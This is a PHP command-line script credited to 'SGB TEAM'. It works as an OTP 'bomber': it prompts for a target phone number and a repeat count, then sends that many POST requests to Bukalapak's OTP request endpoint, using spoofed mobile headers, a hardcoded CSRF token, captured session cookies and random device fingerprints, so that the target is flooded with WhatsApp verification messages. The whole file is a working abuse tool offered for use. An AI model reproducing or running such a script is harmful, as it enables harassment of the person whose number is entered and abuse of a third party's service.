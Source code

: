 README.md<?php

echo "COPYRIGHT : SGB TEAM\n\n";

echo "Nomor Target?\nInput : ";

$nomer = trim(fgets(STDIN));

if(strlen($nomer)==11){

	$nomer = str_replace("0","62".$nomer);

}elseif(strlen($nomer)>12){

	$nomer = str_replace("62","0",$nomer);

}

echo "Target: $nomer (y/n)";

$cek = trim(fgets(STDIN));

if($cek=="n") exit("Stopped!\n");

echo "Jumlah?\nInput : ";

$jumlah = trim(fgets(STDIN));

for($a=0;$a<$jumlah;$a++) {

	$rand1 = md5(rand(12345678,98765432));

	$rand2 = md5(rand(12345678,98765432));

	$rand = array($rand1,$rand2);

	$rand3 = md5($rand[rand(1,2)]);

	$config['headers'] = explode("\n", "Host: m.bukalapak.com

Connection: keep-alive

Content-Length: 150

Origin: https://m.bukalapak.com

X-CSRF-Token: uYUfi93g92mZboBVB4UMwYInorBNOgyYEAbPUTikHht+xseF8BFUgg9qSgQWA9MRy7eL8G/SnbYUGg0JRM1fjw==

User-Agent: Mozilla/5.0 (Linux; Android 7.1.2; Redmi 4X Build/N2G47H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.91 Mobile Safari/537.36

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Accept: */*

X-Requested-With: XMLHttpRequest

Save-Data: on

Referer: https://m.bukalapak.com/register?from=home_mobile

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9,id;q=0.8

Cookie: identity=".$rand1."; browser_id=".$rand2."; _ga=GA1.2.1024758930.1531960985; _vwo_uuid_v2=DE8E70E7E9A8960F05F20FE0ACE87643B|378e4a2f30c36053c1cb833e89ecbc2e; _gid=GA1.2.622427606.1533988422; scs=%7B%22t%22%3A1%7D; spUID=15339884253603c43b2de12.c5b45553; session_id=e95e7511997432af179935abfce90320; __auc=3eed305416528d5f584187b45b2; G_ENABLED_IDPS=google; track_register=true; affiliate_landing_visit=true; mp_51467a440ff602e0c13d513c36387ea8_mixpanel=%7B%22distinct_id%22%3A%20%22164affd88ae1d-0791dbbd558a18-1f20130c-38400-164affd88aff4%22%2C%22utm_source%22%3A%20%22hasoffers-1851%22%2C%22utm_medium%22%3A%20%22affiliate%22%2C%22utm_campaign%22%3A%20%2215%22%2C%22%24initial_referrer%22%3A%20%22%24direct%22%2C%22%24initial_referring_domain%22%3A%20%22%24direct%22%7D; ins-gaSSId=cdd66ffd-18ce-a176-a3c3-26f0ac9ec000_1534027025; lskjfewjrh34ghj23brjh234=elBsSkNBb3VKS3hzZSttTnNKTm5VNk1pWmtzV1A1YldKRm1majAzRFdsSUJtcDJJV0psL0pnOFlBamtJU1NBa1Y2czlQdjZrNlFURDNiRmZqQmNRRXRyeWRTbGV5QUdpQnZjV3JocEc3ak9QeHpWSlpRNTE4eFgzR2FieDVnc2dWaUVoZzVzMEJlMVZwM2NKWk1LaXVwQTZuOXBVR01TUUJ4ejc4MW5MTU5taGYwZ2M0bFdwM05KYy9IcTh3bThsd3dzbSt4bHd4WG9NSklrcHJtT0dHUURURVQ5YVoyb0hLQ3dyUC9NZ2V6UUNFYmVGbE84REtqOHZlKzBZUGtiRS0tV3pMamNPNDhKT1FoZ202Q1BkNUJ5dz09--5a445aefe0c06b736c22e9f359ee3b7273058175; insdrSV=32; _td=7e03facb-a77c-4ce7-8b83-2427781c78c7");

	global $config;

	$ar = http_build_query(array(

				'feature' => 'phone_registration',

				'feature_tag' => '',

				'manual_phone' => $nomer,

				'device_fingerprint' => $rand3,

				'channel' => 'WhatsApp'

)

);

	$ch = curl_init();

	curl_setopt($ch, CURLOPT_URL, "https://m.bukalapak.com/trusted_devices/otp_request");

	curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

	curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);

	curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

	curl_setopt($ch, CURLOPT_HEADER, false);

	curl_setopt($ch, CURLOPT_HTTPHEADER, $config['headers']);

	curl_setopt($ch, CURLOPT_POST, 1);

	curl_setopt($ch, CURLOPT_POSTFIELDS, $ar);

	$asw = curl_exec($ch);

	curl_close($ch);

	print $a.$nomer." [Sending]\n";

}

